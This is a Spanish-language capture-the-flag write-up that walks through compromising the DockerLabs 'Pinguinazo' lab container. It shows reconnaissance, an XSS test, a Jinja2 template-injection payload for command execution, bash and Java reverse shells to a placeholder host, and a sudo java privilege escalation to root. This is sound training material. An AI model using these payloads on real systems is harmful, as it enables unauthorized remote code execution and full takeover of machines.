








#Writeups #Easy #DockerLabs


Empezamos con un escaneo general de nmap:

```bash
❯ sudo nmap -sS -Pn -p- -n --min-rate 5000 172.17.0.2
[sudo] contraseña para dached: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-27 15:57 CEST
Nmap scan report for 172.17.0.2
Host is up (0.0000060s latency).
Not shown: 65534 closed tcp ports (reset)
PORT     STATE SERVICE
5000/tcp open  upnp
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 1.15 seconds
```

Vemos que hay un servicio upnp en el puerto 5000, vamos a escanearlo a ver que mas nos puede decir de este servicio:

```bash
❯ sudo nmap -p5000 -Pn -sCV 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-27 16:05 CEST
Nmap scan report for 172.17.0.2
Host is up (0.000025s latency).

PORT     STATE SERVICE VERSION
5000/tcp open  upnp?
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/3.0.1 Python/3.12.3
|     Date: Mon, 27 May 2024 14:05:16 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 1718
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="UTF-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <title>Pingu Flask Web</title>
|     <link href="https://stackpath.bootstrapcdn.com/bootstrap/4.5.2/css/bootstrap.min.css" rel="stylesheet">
|     </head>
|     <body>
|     <div class="container mt-5">
|     class="text-center">PinguRegistro</h1>
|     <form method="post" action="/greet">
|     <div class="form-group">
|     <label for="name">PinguNombre</label>
|     <input type="text" class="form-control" id="name" name="name" placeholder="Enter your name">
|     </div>
|     <div class="form-group">
|     <label for="birthday">Pi
|   RTSPRequest: 
|     <!DOCTYPE HTML>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 400</p>
|     <p>Message: Bad request version ('RTSP/1.0').</p>
|     <p>Error code explanation: 400 - Bad request syntax or unsupported method.</p>
|     </body>
|_    </html>
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port5000-TCP:V=7.94SVN%I=7%D=5/27%Time=6654931C%P=x86_64-pc-linux-gnu%r
SF:(GetRequest,765,"HTTP/1\.1\x20200\x20OK\r\nServer:\x20Werkzeug/3\.0\.1\
SF:x20Python/3\.12\.3\r\nDate:\x20Mon,\x2027\x20May\x202024\x2014:05:16\x2
SF:0GMT\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:
SF:\x201718\r\nConnection:\x20close\r\n\r\n<!DOCTYPE\x20html>\n<html\x20la
SF:ng=\"en\">\n<head>\n\x20\x20\x20\x20<meta\x20charset=\"UTF-8\">\n\x20\x
SF:20\x20\x20<meta\x20name=\"viewport\"\x20content=\"width=device-width,\x
SF:20initial-scale=1\.0\">\n\x20\x20\x20\x20<title>Pingu\x20Flask\x20Web</
SF:title>\n\x20\x20\x20\x20<link\x20href=\"https://stackpath\.bootstrapcdn
SF:\.com/bootstrap/4\.5\.2/css/bootstrap\.min\.css\"\x20rel=\"stylesheet\"
SF:>\n</head>\n<body>\n\x20\x20\x20\x20<div\x20class=\"container\x20mt-5\"
SF:>\n\x20\x20\x20\x20\x20\x20\x20\x20<h1\x20class=\"text-center\">PinguRe
SF:gistro</h1>\n\x20\x20\x20\x20\x20\x20\x20\x20<form\x20method=\"post\"\x
SF:20action=\"/greet\">\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20<
SF:div\x20class=\"form-group\">\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20\x20\x20<label\x20for=\"name\">PinguNombre</label>\n\x20
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20<input\x20t
SF:ype=\"text\"\x20class=\"form-control\"\x20id=\"name\"\x20name=\"name\"\
SF:x20placeholder=\"Enter\x20your\x20name\">\n\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20</div>\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20<div\x20class=\"form-group\">\n\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\x20\x20<label\x20for=\"birthday\">Pi")%r(RTSPRequ
SF:est,16C,"<!DOCTYPE\x20HTML>\n<html\x20lang=\"en\">\n\x20\x20\x20\x20<he
SF:ad>\n\x20\x20\x20\x20\x20\x20\x20\x20<meta\x20charset=\"utf-8\">\n\x20\
SF:x20\x20\x20\x20\x20\x20\x20<title>Error\x20response</title>\n\x20\x20\x
SF:20\x20</head>\n\x20\x20\x20\x20<body>\n\x20\x20\x20\x20\x20\x20\x20\x20
SF:<h1>Error\x20response</h1>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Error\x2
SF:0code:\x20400</p>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Message:\x20Bad\x
SF:20request\x20version\x20\('RTSP/1\.0'\)\.</p>\n\x20\x20\x20\x20\x20\x20
SF:\x20\x20<p>Error\x20code\x20explanation:\x20400\x20-\x20Bad\x20request\
SF:x20syntax\x20or\x20unsupported\x20method\.</p>\n\x20\x20\x20\x20</body>
SF:\n</html>\n");
MAC Address: 02:42:AC:11:00:02 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 92.58 seconds
```

No os preocupéis si os tarda un rato en mostraros el escaner, vemos que tiene configuraciones http y parece que los scripts de nmap nos muestran codigo html, vamos al navegador a ver si encontramos algo en este puerto:



vemos un formulario.
Seguimos buscando, con gobuster encuentro esto:

```bash
❯ gobuster dir -u http://172.17.0.2:5000/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,txt,html,js,css
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2:5000/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,js,css,php,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/console              (Status: 200) [Size: 1563]
```

Un directorio que nos lleva a lo que parece ser una consola interactiva en la que necesitamos antes de un pin para poder entrar:



Con todo esto lo único que se me ocurre es intentar si vemos algún XSS en el formulario, así que probamos lo siguiente:



vamos a probar con un xss básico a ver si recibimos alguna respuesta:



nos funciona con un XSS basico:
```html
<script>alert(1)</script>
```

Ahora vamos a ver si funciona una inyección SSTI, vamos a probar si nos multiplica estos números:

```bash 
{{5*5}}
```



ponemos el comando y damos al save y nos da un caso positivo:




vemos que podemos inyectar código malicioso con un SSTI, vamos a ver que motor de plantillas usa por detrás la web:

```bash
❯ whatweb 172.17.0.2:5000
http://172.17.0.2:5000 [200 OK] Bootstrap[4.5.2], Country[RESERVED][ZZ], Email[admin@pingulab.lab], HTML5, HTTPServer[Werkzeug/3.0.1 Python/3.12.3], IP[172.17.0.2], JQuery, Python[3.12.3], Script, Title[Pingu Flask Web], Werkzeug[3.0.1]

```

Nos muestra **HTTPServer Werkzeug/3.0.1 Python/3.12.3** busco werkzeug y parece que usa Jinja2, con esta información voy a HackTricks y busco SSTI de jinja2 con python y nos muestra estos ejemplos para Remote Code Executions:



```bash
{{ self._TemplateReference__context.joiner.__init__.__globals__.os.popen('whoami').read() }}
```

En mi caso use el segundo ejemplo y en vez de id, use whoami y este fue el resultado:

```bash
Hello pinguinazo !
```

asi que hacemos una rev shell de bash one liner y vemos si da resultado.

Inicio net cat:

```bash
❯ nc -lnvp 1234
listening on [any] 1234 ...
```

y pongo el siguiente código en la web:

```bash
{{ self._TemplateReference__context.joiner.__init__.__globals__.os.popen('bash -c "bash -i >& /dev/tcp/TU_IP/TU_PUERTO 0>&1"').read() }}
```


damos al save y obtenemos conexión:

```bash
❯ nc -lnvp 1234
listening on [any] 1234 ...
connect to [192.168.1.217] from (UNKNOWN) [172.17.0.2] 50168
bash: cannot set terminal process group (8): Inappropriate ioctl for device
bash: no job control in this shell
pinguinazo@d4b8f1fc7e37:~$ 

```

Enumeramos los permisos Sudo:

```bash
pinguinazo@d4b8f1fc7e37:~$ sudo -l
Matching Defaults entries for pinguinazo on d4b8f1fc7e37:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User pinguinazo may run the following commands on d4b8f1fc7e37:
    (ALL) NOPASSWD: /usr/bin/java
pinguinazo@d4b8f1fc7e37:~$
```

Vemos que tenemos permisos sudo de java, en este caso no encontraremos información en gtfobins ya que no es tan sencillo como python o php que nos da privilegios al momento, pero lo que si podemos hacer es crear un archivo java que tenga una reverse shell y al ejecutarlo con sudo podremos entrar en otra reverse shell con máximos privilegios, vamos a probar.

Primero hacemos una TTY de la consola, os dejo los pasos:

```bash
script /dev/null -c bash
# Dale a CTRL + Z y aunque parezca que se vaya la consola introduce los siguientes comandos:

stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

Se puede ajustar mas asignado columnas y filas pero para este caso nos bastara así, ahora creamos el archivo java con un código que nos da una reverse shell que podemos obtener desde RevShells:

```java
public class shell {
    public static void main(String[] args) {
        Process p;
        try {
            p = Runtime.getRuntime().exec("bash -c $@|bash 0 echo bash -i >& /dev/tcp/TU_IP/TU_PUERTO 0>&1");
            p.waitFor();
            p.destroy();
        } catch (Exception e) {}
    }
}
```

creas el archivo con el nano e introduces el codigo java:

```bash
pinguinazo@d4b8f1fc7e37:~$ nano revshell.java
```

Abres una nueva terminal, la pones a la esucha por net cat:

```bash
❯ nc -lvnp 4040
listening on [any] 4040 ...
```

Y desde la terminal de pinguinazo ejecutas el java

```bash
pinguinazo@d4b8f1fc7e37:~$ sudo /usr/bin/java revshell.java
```

Con esto en la otra temrinal obtenemos una consola como root, os dejo la captura de las dos consolas de pinguinazo y root:



A la izquierda ya tenemos la consola como root.